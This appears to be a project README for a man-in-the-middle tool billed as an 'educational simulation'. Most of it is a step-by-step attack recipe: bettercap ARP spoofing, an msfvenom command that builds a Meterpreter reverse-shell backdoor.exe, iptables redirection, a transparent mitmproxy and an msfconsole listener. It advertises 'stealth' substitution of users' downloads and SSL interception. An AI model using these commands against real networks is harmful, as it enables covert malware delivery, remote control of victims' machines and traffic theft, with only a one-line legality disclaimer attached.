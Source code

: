 
# 📜 **Project Description: Automated MITM Attack Simulation with Python**  

## 🔍 **Project Purpose**  
This tool is an **educational simulation** designed for **cybersecurity professionals** and **ethical hackers**. Core functionalities:  
- Manipulating network traffic to redirect `.exe` downloads  
- Full traffic control via ARP spoofing  
- Creating realistic penetration testing scenarios  

## 🛠️ **How It Works?**  
Step-by-step **MITM EXE redirection** commands and workflow:  

---

### 🔧 **1. Setup Phase**  
```bash
# Install dependencies (Kali Linux)  
sudo apt update && sudo apt install -y mitmproxy bettercap metasploit-framework python3  
```  

### 🌐 **2. Start Network Sniffing**  
```bash
# Specify network interface (e.g., wlan0)  
sudo bettercap -iface wlan0  
```  

### 🕵️♂️ **3. Activate ARP Spoofing**  
```bettercap
# Commands to run within Bettercap  
net.probe on  
set arp.spoof.targets ***  # Target IP  
set arp.spoof.fullduplex true  
arp.spoof on  
```  

### 🎯 **4. Backdoor Creation**  
```bash
# Generate Meterpreter payload  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=TARGET_IP LPORT=1234 -f exe -o /var/www/html/backdoor.exe  
```  

### 🚦 **5. Traffic Redirection Rules**  
```bash
# IP Tables configuration  
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080  
```  

### ⚡ **6. Launch MITM Proxy**  
```bash
./mitmdump -s mitm.py --mode transparent  
```  

### 📡 **7. Metasploit Listener**  
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST ***; set LPORT 1234; exploit"  
```  

### 📌 **Critical Notes**  
1. Replace **IP addresses** according to your network  
2. Install CA certificates from `mitm.it` on target devices to avoid SSL errors  
3. Testing should **only** be performed in **legal environments**  

---

Tested on **Kali Linux 2023+**. Monitor outputs at each step! 💻  

## 🌟 **Key Features**  
| Feature | Description |  
|---------|-------------|  
| **Stealth Redirection** | Users believe they downloaded the original file |  
| **SSL Bypass** | Decrypts traffic using mitm.it certificates |  
| **Multi-Target** | Supports network-wide or single-device targeting |  

**Use Cases**:  
- Corporate network security testing  
- Cybersecurity training  
- Malware behavior analysis  

## 💡 **Why It Matters?**  
- Tests **download security** vulnerabilities in organizations  
- Simulates the technical layer of **social engineering attacks**  
- Helps security professionals develop **defense mechanisms**  

---

> *"Information security begins with understanding both defense and offense dynamics."* — Cybersecurity Manifesto  

---
